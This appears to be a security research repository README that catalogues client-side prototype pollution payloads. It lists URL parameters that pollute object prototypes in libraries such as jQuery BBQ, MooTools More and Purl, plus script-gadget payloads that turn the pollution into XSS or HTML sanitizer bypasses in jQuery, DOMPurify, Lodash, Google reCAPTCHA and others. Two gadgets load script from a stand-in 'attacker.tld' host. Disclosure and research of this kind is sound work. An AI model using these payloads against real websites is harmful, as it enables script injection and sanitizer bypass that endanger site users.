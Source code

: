 # Client-Side Prototype Pollution

## Intro

If you are unfamiliar with Prototype Pollution Attack, you should read the following first:  
[JavaScript prototype pollution attack in NodeJS](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf) by Olivier Arteau  
[Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) by Michał Bentkowski

In this repository, I am trying to collect examples of libraries that are vulnerable to Prototype Pollution due to `document.location` parsing and useful script gadgets that can be used to demonstrate the impact.

## Prototype Pollution

| Name                                                              | Payload                                                                  | Refs                                        | Found by                                         |
|-------------------------------------------------------------------|--------------------------------------------------------------------------|---------------------------------------------|--------------------------------------------------|
| Wistia Embedded Video (**Fixed**)                                 | `?__proto__[test]=test`<br>`?__proto__.test=test`                        | [[1]](https://hackerone.com/reports/986386) | [William Bowling](https://twitter.com/wcbowling) |
| [jQuery query-object plugin](/pp/jquery-query-object.md)          | `?__proto__[test]=test`<br>`#__proto__[test]=test`                       |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery Sparkle](/pp/jquery-sparkle.md)                           | `?__proto__.test=test`<br>`?constructor.prototype.test=test`             |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [V4Fire Core Library](/pp/v4fire-core.md)                         | `?__proto__.test=test`<br>`?__proto__[test]=test`<br>`?__proto__[test]={"json":"value"}`|                              | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [backbone-query-parameters](/pp/backbone-qp.md)                   | `?__proto__.test=test`<br>`?constructor.prototype.test=test`             | [[1]](https://bugcrowd.com/disclosures/57b28008-4653-4dec-88c3-4d38e40023ff/toolbox-teslamotors-com-html-injection-via-prototype-pollution-potential-xss) | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery BBQ](/pp/jquery-bbq.md)                                   | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jquery-deparam](/pp/jquery-deparam.md)                           | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [MooTools More](/pp/mootools-more.md)                             | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [Swiftype Site Search (**Fixed**)](/pp/swiftype-site-search.md)   | `#__proto__[test]=test`                                                  |                                             | [s1r1us](https://twitter.com/S1r1u5_)            |
| [CanJS deparam](/pp/canjs-deparam.md)                             | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Rahul Maini](https://twitter.com/iamnoooob)     |
| [Purl (jQuery-URL-Parser)](/pp/purl.md)                           | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`<br>`#__proto__[test]=test`|                           | [Sergey Bobrov](https://twitter.com/Black2Fan)   |

## Script Gadgets

| Name                                                    | Payload                                                                       | Impact            | Refs                                              | Found by                                            |
|---------------------------------------------------------|-------------------------------------------------------------------------------|-------------------|---------------------------------------------------|-----------------------------------------------------|
| [Wistia Embedded Video](/gadgets/wistia-video.md)       | `?__proto__[innerHTML]=<img/src/onerror=alert(1)>`                            | XSS               | [[1]](https://hackerone.com/reports/986386)       | [William Bowling](https://twitter.com/wcbowling)    |
| [jQuery $.get >= 3.0.0](/gadgets/jquery.md)             | `?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script`               | XSS               |                                                   | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [jQuery $.getScript >= 3.4.0](/gadgets/jquery.md)       | `?__proto__[src][]=data:,alert(1)//`                                          | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [jQuery $.getScript 3.0.0 - 3.3.1](/gadgets/jquery.md)  | `?__proto__[url]=data:,alert(1)//`                                            | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [jQuery $(html)](/gadgets/jquery.md)                    | `?__proto__[div][0]=1&__proto__[div][1]=<img src onerror%3dalert(1)>&__proto__[div][2]=1`| XSS    |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [jQuery $(x).off](/gadgets/jquery.md)                   | `?__proto__[preventDefault]=x&__proto__[handleObj]=x&__proto__[delegateTarget]=<img/src/onerror%3dalert(document.domain)>`| XSS    |                  | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Google reCAPTCHA](/gadgets/recaptcha.md)               | `?__proto__[srcdoc][]=<script>alert(1)</script>`                              | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Twitter Universal Website Tag](/gadgets/twitter-uwt.md)| `?__proto__[hif][]=javascript:alert(1)`                                       | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Tealium Universal Tag](/gadgets/tealium-utag.md)       | `?__proto__[attrs][src]=1&__proto__[src]=//attacker.tld/js.js`                | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Akamai Boomerang](/gadgets/akamai-boomerang.md)        | `?__proto__[BOOMR]=1&__proto__[url]=//attacker.tld/js.js`                     | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Lodash <= 4.17.15](/gadgets/lodash.md)                 | `?__proto__[sourceURL]=%E2%80%A8%E2%80%A9alert(1)`                            | XSS               | [[1]](https://github.com/lodash/lodash/pull/4518) | [Alex Brasetvik](https://twitter.com/alexbrasetvik) |
| [sanitize-html](/gadgets/sanitize-html.md)              | `?__proto__[*][]=onload`                                                      | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [js-xss](/gadgets/js-xss.md)                            | `?__proto__[whiteList][img][0]=onerror&__proto__[whiteList][img][1]=src`      | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [DOMPurify <= 2.0.12](/gadgets/dompurify.md)            | `?__proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src`          | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [DOMPurify <= 2.0.12](/gadgets/dompurify.md)            | `?__proto__[documentMode]=9`                                                  | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Closure](/gadgets/closure.md)                          | `?__proto__[*%20ONERROR]=1&__proto__[*%20SRC]=1`                              | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Closure](/gadgets/closure.md)                          | `?__proto__[CLOSURE_BASE_PATH]=data:,alert(1)//`                              | XSS               | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Marionette.js / Backbone.js](/gadgets/marionette.md)   | `?__proto__[tagName]=img&__proto__[src][]=x:&__proto__[onerror][]=alert(1)`   | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Adobe Dynamic Tag Management](/gadgets/adobe-dtm.md)   | `?__proto__[src]=data:,alert(1)//`                                            | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Swiftype Site Search](/gadgets/swiftype-site-search.md)| `?__proto__[xxx]=alert(1)`                                                    | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Embedly Cards](/gadgets/embedly.md)                    | `?__proto__[onload]=alert(1)`                                                 | XSS               |                                                   | [Guilherme Keerok](https://twitter.com/k33r0k)      |